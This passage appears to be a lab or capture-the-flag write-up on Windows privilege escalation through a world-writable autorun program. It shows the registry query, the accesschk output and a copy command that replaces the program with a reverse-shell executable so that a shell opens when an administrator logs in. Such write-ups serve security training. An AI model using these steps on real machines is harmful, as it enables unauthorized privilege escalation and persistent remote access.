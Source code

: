 Done! Onto the next task/section...

### Registry - Autoruns

A quick search for "autoruns executables" tells us that, (thanks GeeksForGeeks) **Autorun denotes to a service that runs inevitably without deliberately began by the end-user**.

It's quite obvious from the term itself, that these executables run by themselves. They're persistent and quite a powerful tool for gaining access and privilege on a system. There's also the `Autorun.inf` files, but they are an entirely different matter. 

Now that we have some idea of what Autoruns are, lets begin with exploiting them. To begin, we'll query the registry for AutoRun executables:

```console
C:\Users\user> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```

`accesschk.exe` gives us more information:

```console
C:\Users\user> C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

Yet again, `RW Everyone`, our golden ticket makes it all a cakewalk. We'll copy `reverse.exe` to the location of `program.exe`, essentially overwriting it.

```console
C:\Users\user> copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
        1 file(s) copied.
```

The only downside to this exploit is that we won't be getting a reverse shell immedieatly, but rather when the admin user will log into the machine. 
